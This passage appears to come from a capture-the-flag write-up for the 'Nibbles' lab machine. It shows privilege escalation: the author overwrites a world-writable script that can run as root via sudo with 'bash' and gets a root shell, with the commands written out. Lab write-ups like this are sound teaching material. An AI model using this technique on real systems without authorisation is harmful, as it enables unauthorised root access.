We see that the user `nibbler` can run a script as root without a password. Let's take a look.

```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler

nibbler@Nibbles:/home/nibbler$ ls -la
total 24
drwxr-xr-x 4 nibbler nibbler 4096 Nov 22 20:19 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip 
-r-------- 1 nibbler nibbler   33 Nov 22 19:55 user.txt
```

A zip file! Let's unzip it to see the contents inside.

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

Archive:  personal.zip                                                                                                
   creating: personal/                                     
   creating: personal/stuff/    
  inflating: personal/stuff/monitor.sh
```

The script inside the zip file is the one we can run as root! Let's take a closer look at the bash script.

```
nibbler@Nibbles:/home/nibbler$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file is world readable and writable, which means I can edit this script to do anything. The easiest way I thought of to escalate privileges was to modify the script to spawn a bash shell, and run it as root to get a root shell. I copied the script to the user `nibbler`'s home directory just in case anything bad happened.

```
nibbler@Nibbles:/home/nibbler$ cp monitor.sh ~/

nibbler@Nibbles:/home/nibbler$ echo bash > monitor.sh

nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh

root@Nibbles:/home/nibbler/personal/stuff#
```

